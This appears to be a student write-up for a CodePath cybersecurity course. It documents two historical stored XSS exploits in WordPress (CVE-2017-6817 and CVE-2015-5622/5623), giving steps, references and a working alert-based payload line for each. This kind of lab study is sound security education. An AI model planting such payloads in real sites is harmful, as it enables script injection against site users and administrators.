 # CodePath Cybersecurity - week 7
#### Exploit 1: Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
_CVE-2017-6817_  
_Affected versions 4.0 - 4.7.2, fixed in 4.2.13_  

##### Steps
- Create a new Post
- Switch from Visual editing mode to Text (HTML) editing mode
- Insert the malicious YouTube embed shortcode

`[embed src='https://www.youtube.com/embed/dQw4w9WgXcQ\x3csvg onload=alert("exploit!")\x3e'][/embed]`

##### References
- https://wpvulndb.com/vulnerabilities/8768
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6817
- https://wordpress.org/news/2017/03/wordpress-4-7-3-security-and-maintenance-release/
- https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8
- https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html

##### Walkthrough
![Walkthrough exploit 1](https://i.imgur.com/LqaLZgY.gif)

#### Exploit 2: Authenticated Stored Cross-Site Scripting (XSS)
_CVE-2015-5622_  
_CVE-2015-5623_  
_Affected versions 4.0 - 4.2.2, fixed in 4.2.3_  

##### Steps
- Create a new Post  
- Switch from Visual editing mode to Text (HTML) editing mode
- Insert the malicious a href code

`<a href="[caption code=">]</a><a title=" onmouseover=alert('exploit!')  ">link</a>`

##### References
- https://wpvulndb.com/vulnerabilities/8111
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5623
- https://wordpress.org/news/2015/07/wordpress-4-2-3/
- https://twitter.com/klikkioy/status/624264122570526720
- https://klikki.fi/adv/wordpress3.html
 
##### Walkthrough
![Walkthrough exploit 2](https://i.imgur.com/4nuw80g.gif)